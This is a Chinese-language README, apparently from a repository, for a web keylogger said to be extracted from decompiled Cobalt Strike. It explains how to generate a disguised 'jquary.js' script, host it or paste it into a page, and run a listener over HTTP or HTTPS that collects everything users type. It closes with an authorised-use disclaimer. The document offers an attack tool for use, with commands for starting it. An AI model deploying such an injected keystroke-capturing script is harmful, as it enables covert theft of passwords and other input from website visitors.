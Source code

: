 # Keylogger

* 从cs4.2反编译后提取的web端键盘记录，记录web页面输入的所有文本内容。(如果感觉对您有帮助，感觉不错的话，请您给个大大的 ⭐️❗️)

**V1.0**
* 支持协议：HTTP/HTTPS
* 默认会在当前目录生成一个jquary.js,放在远程服务器上加载即可～（直接将生成的源码copy到页面也行，不建议js代码太多）

1. HTTP

`java -jar Keylogger-1.0-SNAPSHOT.jar -h 127.0.0.1 -p 9000 -r http`

<img width="565" alt="http" src="https://user-images.githubusercontent.com/63742814/129600533-8d31e89d-0e76-48e4-828b-05b982605dda.png">
<img width="554" alt="截屏2021-08-17 上午12 54 34" src="https://user-images.githubusercontent.com/63742814/129600641-8b77c24a-68b0-4e1f-ae45-45852a70f7bb.png">


2.HTTPS

`java -jar Keylogger-1.0-SNAPSHOT.jar -h 127.0.0.1 -p 9000 -r https -k "/Users/xxx/xxx.keystore" -s 123456`

<img width="570" alt="https" src="https://user-images.githubusercontent.com/63742814/129601182-1fa18e54-1436-4986-bc41-5280a69bd4db.png">
<img width="554" alt="截屏2021-08-17 上午12 54 34" src="https://user-images.githubusercontent.com/63742814/129601198-4e56f8ae-d08d-41b1-9292-02ee26de6bde.png">

3.Help

<img width="564" alt="截屏2021-08-17 上午1 03 26" src="https://user-images.githubusercontent.com/63742814/129601904-7783001b-aa51-46c9-b042-30fdd0363fea.png">


**免责声明**

##
本工具仅能在取得足够合法授权的企业安全建设中使用，在使用本工具过程中，您应确保自己所有行为符合当地的法律法规。


如您在使用本工具的过程中存在任何非法行为，您将自行承担所有后果，本工具所有开发者和所有贡献者不承担任何法律及连带责任。


除非您已充分阅读、完全理解并接受本协议所有条款，否则，请您不要安装并使用本工具。


您的使用行为或者您以其他任何明示或者默示方式表示接受本协议的，即视为您已阅读并同意本协议的约束。
